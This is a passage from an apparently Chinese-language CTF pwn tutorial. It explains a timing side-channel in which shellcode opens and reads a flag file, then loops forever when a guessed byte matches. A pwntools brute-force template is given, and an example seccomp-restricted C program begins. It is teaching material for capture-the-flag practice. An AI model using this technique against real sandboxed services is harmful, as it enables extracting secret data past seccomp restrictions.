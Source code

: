 buf+i为flag中的第几个字符, ch是我们给定的字符列表中的一个字符

### or shellcode

or shellcode主要利用的思想就是, 如果程序正常不进入死循环, 那么开始运行程序到程序退出, 之间的间隔肯定小于1s, 如果进入死循环, 我们设置当超过1s时, 自动kill掉程序, 那么时间间隔肯定会大于1s, 间接证明字符比对成功

可以将该类题型归结为模板, 直接套用就行

```python
# 模板
from pwn import*
import time
context(os='linux', arch='xxx')

def attack(o, i, ch):
    shellc = shellcraft.open("flag")
    shellc += shellcraft.read("rax", "rsp", 0x50)	# or读取flag到内存中
    shellc += "loop:"	# 跳转标签
    shellc += "cmp byte ptr[rsi+{0}], {1}".format(i, ord(ch))	# rsi也就是read的第二个参数, 存储的是存储flag的内存地址, rsi+i也就是指向了flag第几个字节, byte ptr[rsi+i]为获取一个字节, ch为用来爆破比对的字符
    shellc += "jz loop"	# 如果cmp比对成功, 就跳转到loop, 接着就会一直比对那一个字符, 进入无限死循环
    o.recv()
    o.sendline(asm(shellc))

if __name__ == "__main__":
    li = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}1234567890_-"	# 爆破字符集
    i = 0	# flag中字符定位
    flag = []	# 存放比对成功的flag字符
    while(xxx-i):	# 循环flag每个字符
        for ch in li:	# 循环字符集中每个字符
            o = process('./elf')
            start_time = time.time()	# 获取开始的时间
            attack(o, i, ch)	# 发送shellcode执行
            try:	# 防止直接报错退出整个脚本
                o.recv(timeout=2)	# 设置recv的timeout属性, 也就是当超过2s钟接收不到内容, 就自动kill掉程序, 当进入死循环的时候, 程序不会发送东西, 所以recv肯定会进入阻塞状态, 到2s后结束程序, 正常不进入死循环, 肯定就直接退出
           	except:
                pass
            end_time = time.time()	# 获取结束时间
            o.close()
            if end_time - start_time > 1:
                flag.append(ch)	# 对比成功的字符放进列表
                break	# 退出for循环, 比对下一个flag字符
        else:	# 如果遍历了字符集还没有找到
            flag.append("?")	# 用?来占位置
        i += 1	# flag字符位置+1
	print flag	# 打印匹配到flag
```

以一道题来讲解

```c
#include<unistd.h>
#include<sys/mman.h>
#include<stdio.h>
#include<seccomp.h>
#include<linux/seccomp.h>
#include<sys/prctl.h>
#include<linux/filter.h>

void init() {
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	setbuf(stderr, 0);
}
```